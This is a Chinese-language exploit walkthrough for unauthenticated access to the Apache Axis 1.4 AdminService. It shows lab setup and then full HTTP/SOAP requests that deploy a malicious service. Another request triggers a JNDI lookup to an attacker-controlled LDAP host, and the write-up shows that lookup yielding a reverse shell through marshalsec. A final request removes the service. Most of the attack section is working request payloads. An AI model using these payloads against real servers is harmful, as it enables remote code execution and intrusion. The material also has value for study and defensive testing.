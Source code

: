 ```yaml
---
sort: 3
---
```


# Axis AdminService 未授权访问

## 1. JNDI 注入

### 1.1 漏洞利用条件

Axis == 1.4
AdminService enableRemoteAdmin == True, 或者存在 SSRF 漏洞

### 1.2 搭建

axis bin 包解压后将 webapps 下 axis 复制到 tomcat 环境下的 webapps 目录下：

下载:
[http://mirror.navercorp.com/apache/axis/axis/java/1.4/](http://mirror.navercorp.com/apache/axis/axis/java/1.4/)

- 本地环境变量更新
  执行本地构建命令时需要环境变量找到 jar 包路径

```
vim ~/.profile

export AXIS_HOME=/var/lib/tomcat8/webapps/axis
export AXIS_LIB=$AXIS_HOME/WEB-INF/lib
export AXISCLASSPATH=$AXIS_LIB/axis.jar:$AXIS_LIB/commons-discovery-0.2.jar:$AXIS_LIB/commons-logging-1.0.4.jar:$AXIS_LIB/jaxrpc.jar:$AXIS_LIB/saaj.jar:$AXIS_LIB/log4j-1.2.8.jar:$AXIS_LIB/xml-apis.jar:$AXIS_LIB/xercesImpl.jar:$AXIS_LIB/wsdl4j-1.5.1.jar

source ~/.profile
```

- 开启 RemoteAdmin 服务

```
webapps/axis/WEB-INF/deploy.wsdd

<deployment xmlns="http://xml.apache.org/axis/wsdd/"
    xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
  <service name="AdminService" provider="java:MSG">
    <parameter name="className" value="org.apache.axis.utils.Admin"/>
    <parameter name="allowedMethods" value="*"/>
    <parameter name="enableRemoteAdmin" value="true"/>
  </service>
</deployment>
```

- 部署刷新配置

```
java -cp $AXISCLASSPATH org.apache.axis.client.AdminClient deploy.wsdd
```

![](vx_images/262620090670.png)

### 1.3 JNDI 注入点

- 所有默认可用的 jar 包
  ![](vx_images/5873320109096.png)

发现 org.apache.axis.client.ServiceFactory 下 getService 服务中获取 environment 中的 jndiName 再进行 context.lookup 访问恶意 ldap 服务器：
![](vx_images/2693521096963.png)

### 1.4 利用过程

- 通过 AdminService 接口注册服务

```
POST /axis/services/AdminService HTTP/1.1
Host: 192.168.123.136:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 737

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:api="http://127.0.0.1/Integrics/Enswitch/API" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <soapenv:Body>
    <ns1:deployment xmlns:ns1="http://xml.apache.org/axis/wsdd/" xmlns="http://xml.apache.org/axis/wsdd/" xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
      <ns1:service name="test1Service" provider="java:RPC">
        <ns1:parameter name="className" value="org.apache.axis.client.ServiceFactory"/>
        <ns1:parameter name="allowedMethods" value="*"/>
      </ns1:service>
    </ns1:deployment>
  </soapenv:Body>
</soapenv:Envelope>
```

![](vx_images/4422622117129.png)

- 利用刚才注册的服务进行 jndi 注入
  访问创建的 test1Service 进行 jndi 注入：

```
POST /axis/services/test1Service HTTP/1.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.123.136:8080/axis/servlet/AxisServlet
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-TW;q=0.9,zh-CN;q=0.8
Connection: close
SOAPAction:
Content-Type: text/xml;charset=UTF-8
Host: 192.168.123.136:8080
Content-Length: 720

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:buil="http://build.antlr">
  <soapenv:Header/>
  <soapenv:Body>
    <buil:getService soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
      <environment xmlns:apachesoap="http://xml.apache.org/xml-soap" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" xsi:type="apachesoap:Map">
        <item>
          <key xsi:type="soapenc:string">jndiName</key>
          <value xsi:type="soapenc:string">ldap://[vps_adress]:1389/Reverse1</value>
        </item>
      </environment>
    </buil:getService>
  </soapenv:Body>
</soapenv:Envelope>
```

- marshalsec ldap 反弹 shell：
  ![](vx_images/3031424109798.png)
  ![](vx_images/4001824106353.png)

- 卸载服务

```
POST /axis/services/AdminService HTTP/1.1
Host: 192.168.123.136:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 463

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
<undeployment xmlns="http://xml.apache.org/axis/wsdd/">
 <service name="test1Service"/>
</undeployment>
  </soapenv:Body>
</soapenv:Envelope>
```

- 参考链接  
  [https://axis.apache.org/axis/java/install.html](https://axis.apache.org/axis/java/install.html)
  https://github.com/KibodWapon/Axis-1.4-RCE-Poc
